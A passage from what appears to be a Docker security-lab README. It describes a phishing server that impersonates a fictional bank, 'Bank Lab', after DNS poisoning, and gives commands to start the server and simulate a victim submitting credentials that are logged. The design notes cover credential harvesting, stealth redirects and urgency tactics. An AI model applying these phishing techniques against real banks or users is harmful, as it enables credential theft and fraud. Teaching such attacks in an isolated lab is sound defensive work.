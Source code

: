 ### Phishing Server Components

#### 1. Fake Bank Lab Website
- **Professional Design**: Mimics legitimate banking interface
- **SSL Appearance**: Shows secure styling to fool users
- **Login Form**: Captures username/password submissions
- **Realistic Branding**: Bank Lab logos and color scheme

#### 2. Credential Logging System
- **Real-time Capture**: Saves credentials immediately upon submission
- **Admin Dashboard**: `/admin` endpoint for monitoring captures
- **Persistent Storage**: Logs stored in `/data/creds.log`
- **Stealth Operation**: Redirects to real bank after capture

#### 3. Social Engineering Elements
- **Trust Indicators**: Security badges, SSL icons
- **Urgency Tactics**: Login prompts, session timeouts
- **Familiar Interface**: Matches expected banking experience

### Demonstration Commands

#### Setup Phishing Environment:
```bash
# 1. Ensure DNS is already poisoned (from Part 2)
docker exec victim dig "@10.0.0.20" www.bank.lab +short
# Should return: 10.0.0.50

# 2. Start phishing server
docker exec -it attacker python3 phishing_server.py
# Server starts on 10.0.0.50:80
```

#### Test HTTP Hijacking:
```bash
# Terminal 1: Monitor phishing server logs
docker exec -it attacker python3 phishing_server.py

# Terminal 2: Victim accesses bank website
docker exec victim curl http://www.bank.lab

# Expected: Returns fake banking HTML page
# Victim sees professional login form
```

#### Demonstrate Credential Theft:
```bash
# Victim submits login credentials
docker exec victim curl -X POST http://www.bank.lab/login \
  -d "username=victim@bank.lab&password=mypassword123" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Expected Results:
# 1. Attacker server logs: "🎯 CREDENTIAL CAPTURED!"
# 2. Victim receives: "Login Successful" page
# 3. Credentials saved to /data/creds.log
```
